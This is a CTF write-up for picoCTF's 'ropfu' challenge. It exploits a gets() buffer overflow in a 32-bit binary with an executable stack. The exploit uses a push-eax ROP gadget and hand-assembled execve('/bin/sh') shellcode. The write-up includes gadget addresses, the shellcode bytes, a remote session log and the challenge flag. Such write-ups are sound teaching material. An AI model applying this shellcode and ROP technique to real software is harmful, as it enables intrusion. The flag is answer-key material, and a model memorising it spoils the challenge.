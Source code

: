 # ropfu

ROP to asm shellcode, Syscall

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

PIE is not enabled, so our ROP chain does not change per runtime. 

The canary is not present in the `vuln` function. 

We can return to our own shellcode in our input buffer because the stack is executable. 

## Resources for making syscalls with x86 (32-bit) asm opcodes

- [Passing parameters to x86 syscalls](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux)
- [x86 Syscall Reference](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
- [x86 Opcode Reference](http://ref.x86asm.net/coder32.html)
- [Online x86 Assembler](https://defuse.ca/online-x86-assembler.htm)

## Concept

The concept of the exploit is to exploit the buffer overflow in  `vuln` to use a ROP gadget to jump to shellcode on the stack (written in the buffer) that starts a shell. 

The shellcode sets up the required registers to perform a syscall to `execve` with the first argument being "/bin/sh". 

## How to ROP to Shellcode?

Due to ASLR of the stack, we are unable to overwrite the return address with a static value (which would've been the start address of the buffer). 

Thankfully, the address of `buf` gets returned (i.e. stored in `eax`)

```c
void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);
}
```

We can thus use a single ROP gadget to push `eax` onto the stack such that on ret, that value is loaded into `eip`. 

### ROP chain

- Gadget 1: Push eax
- Value 1: 11

Value 1 exists because we are popping `eax` off the stack to set it to our desired value (of 11). See [API requirements for `execve('/bin/sh)`](#api-requirements-for-execvebinsh). 

Gadget can be found with `xgadget`

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:/mnt/d/CTFs/picoCTF/Pwn/ropfu$ xgadget vuln | grep 'push eax; ret'
0x000000080b06d7: add al, 0x8b; inc eax; push eax; ret;
0x000000080b06d9: inc eax; push eax; ret;
0x000000080b06da: push eax; ret;
```

## API Requirements for `execve('/bin/sh')`

Based on [this reference about passing parameters to x86 syscalls](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux), [this x86 Syscall Reference](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) and [this StackOverflow post](https://stackoverflow.com/questions/36673765/why-can-the-execve-system-call-run-bin-sh-without-any-argv-arguments-but-not), we need

1. `eax` = 11, 
2. `ebx` to contain a pointer to a `/bin/sh` string, 
3. `ecx` to contain a null pointer, and 
4. `edx` to contain a null pointer. 

Note that `execve` technically requires `ecx` and `edx` to both point to arrays of char pointers, as [documented](https://man7.org/linux/man-pages/man2/execve.2.html), but the exploit works so it seems to be that `execve` can run /bin/sh even with those arguments as null pointers (probably due to checks in the source of `execve`). 

### Acceptance of Arbitrary `edx`

In fact, even if `edx` is not set, the exploit still runs. This is corroborated by [this writeup](https://nickcano.com/csaw-shell-p-code/), albeit of a different shellcode exploit but one that still involves running `execve("/bin/sh")`. 

## Shellcode

```x86asm
0:  58                  pop    eax
1:  89 e3               mov    ebx,esp
3:  83 eb 10            sub    ebx,0x10  ; Load /bin/sh -> ebx
6:  31 C9               xor    ecx,ecx
8:  31 D2               xor    edx,edx
a:  CD 80               int    80h
```

We can figure out that our injected "/bin/sh" string is at `esp-16` at that point with some poking around in gdb. 

Shellcode can be generated from an [online x86 assembler](https://defuse.ca/online-x86-assembler.htm#disassembly). Alternatively, you can look into an [x86 Opcode Reference](http://ref.x86asm.net/coder32.html). These are both mentioned in the [resources](#resources-for-making-syscalls-with-x86-32-bit-asm-opcodes) section. 

## Flag

```
[+] Opening connection to saturn.picoctf.net on port 60525: Done
[*] Loaded 77 cached gadgets for './vuln'
0x0000:        0x80b06da
[*] Switching to interactive mode
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_4c812975}
```

## Automation

The assembled `pwnlib.shellcraft.i386.linux.sh()` payload is 44 bytes long while we only have 28 bytes before the retaddr, so there was a need to use 

```
pwnlib.shellcraft.i386.linux.syscalls.execve('/bin/sh', 0, 0)
```

which is exactly 28 bytes long (when assembled). However, this is still causes problems because pushes onto the stack (to place b'/bin/sh\x00') overwrite instructions. 

> Specifically, `esp` pointed to the address 32 bytes above the start of the buffer. Thus with two pushes, we are already overwriting our shellcode. 

I personally felt that at this point the time spent attempting to automate the solve exceeded the amount of time that could possibly have been saved using automation, so I read [this writeup](https://medium.com/@valsamaramalamatenia/picoctf-ropfu-beginners-guide-eb7af08567b5). 

It turns out that we can just use a NOP slide and short jump to get `eip` past the return address portion of the payload before the shellcode (of basically any arbitrary size) to start a shell can start. 

